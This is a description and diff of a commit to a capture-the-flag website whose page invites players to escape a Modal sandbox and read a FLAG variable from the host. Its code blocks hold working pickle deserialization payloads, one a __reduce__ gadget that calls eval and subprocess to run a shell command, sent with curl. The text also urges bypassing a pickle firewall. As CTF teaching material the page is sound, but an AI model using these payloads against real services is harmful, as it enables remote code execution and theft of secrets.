

Before and after one commit to yeldarby/modal-ctf, a plain HTML site: page public/index.html in a window 1280 px wide. Shown: the part 146-1667 px from the top of the page at 86% size, without its empty margins (108-1171 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update description

```diff
--- a/public/index.html
+++ b/public/index.html
@@ -18,11 +18,11 @@
     <div class="section">
         <h2>Challenge Description</h2>
         <p>Your goal is to capture the flag (stored in the FLAG environment variable on this VM).</p>
-        <p>This server accepts Python code, sends it to a Modal Restricted Function for execution, and then processes the result.</p>
-        <p>The server can run in two modes:</p>
+        <p>This server accepts Python code, sends it to a Modal Restricted Function (used as a sandbox) for execution, and then processes the result.</p>
+        <p>This server can run in two modes:</p>
         <ul>
             <li><strong>VULNERABLE Mode:</strong> Pickle deserialization attacks work (standard CTF challenge)</li>
-            <li><strong>SECURE Mode:</strong> rfmodal's pickle firewall blocks standard attacks (find another way!)</li>
+            <li><strong>SECURE Mode:</strong> rfmodal's pickle firewall blocks standard attacks</li>
         </ul>
     </div>
 
@@ -30,7 +30,7 @@
         <h2>Check Server Mode</h2>
         <p>First, check which mode the server is running in:</p>
         <div class="code-block">curl [YOUR_URL]/mode</div>
-        <p>This will tell you if pickle attacks will work or if you need to find another approach.</p>
+        <p>This will tell you if standard pickle attacks will work or if you need to find another approach.</p>
     </div>
 
     <div class="section">
@@ -43,9 +43,9 @@
 EOF</div>
     </div>
 
-    <div class="section vulnerable-mode">
-        <h2>🔓 Vulnerable Mode: Pickle Deserialization Attack</h2>
-        <p>If the server is in VULNERABLE mode, these exploits will capture the flag:</p>
+    <div class="section">
+        <h2>Pickle Deserialization Attack</h2>
+        <p>If the server is in VULNERABLE mode, these exploits will capture the flag. In SECURE mode, they should not work.</p>
         <p><strong>Example 1:</strong></p>
         <div class="code-block">curl -X POST [YOUR_URL]/execute --data-binary @- &lt;&lt;'EOF'
 class FlagExploit:
@@ -59,31 +59,17 @@
         <div class="code-block">curl -X POST [YOUR_URL]/execute --data-binary @- &lt;&lt;'EOF'
 type('E', (), {'__reduce__': lambda s: (eval, ("__import__('subprocess').check_output(['sh', '-c', 'echo -n \"The flag is: $FLAG\"']).decode()",))})()
 EOF</div>
-        <p>The server will return pretty-printed JSON with the flag in the "result" field.</p>
-    </div>
-
-    <div class="section secure-mode">
-        <h2>🔒 Secure Mode: Advanced Challenge</h2>
-        <p>If the server is in SECURE mode, the pickle attacks above will be blocked by rfmodal's firewall.</p>
-        <p>You'll see an error like:</p>
-        <div class="code-block">{
-  "success": false,
-  "error": "Failed to execute code: [firewall blocked]",
-  "mode": "secure",
-  "firewall_blocked": true,
-  "hint": "The pickle firewall blocked your attack. This is expected in secure mode!"
-}</div>
-        <p><strong>Your challenge:</strong> Find another way to exploit the system... if one exists!</p>
-        <p>Hint: The rfmodal firewall is designed to be secure. There might not be a bypass. That's the real challenge!</p>
+        <p>In VULNERABLE mode, the server will return pretty-printed JSON with the flag in the "result" field.</p>
     </div>
 
     <div class="section">
         <h2>Rules</h2>
+        <p>The goal is to escape from the sandbox and capture the flag that lives on the host VM.</p>
         <ul>
             <li>The flag is stored in the FLAG environment variable on the host VM</li>
             <li>The Modal function runs with restrict_modal_access=True and block_network=True</li>
             <li>Code executes in a Modal container, results are processed on the host</li>
-            <li>In SECURE mode, standard pickle exploits are blocked - be creative!</li>
+            <li>In SECURE mode, we try to block standard pickle exploits; find a way to bypass the firewall.</li>
         </ul>
     </div>
 
```
Also changed, not shown: requirements.txt, 1 other file.
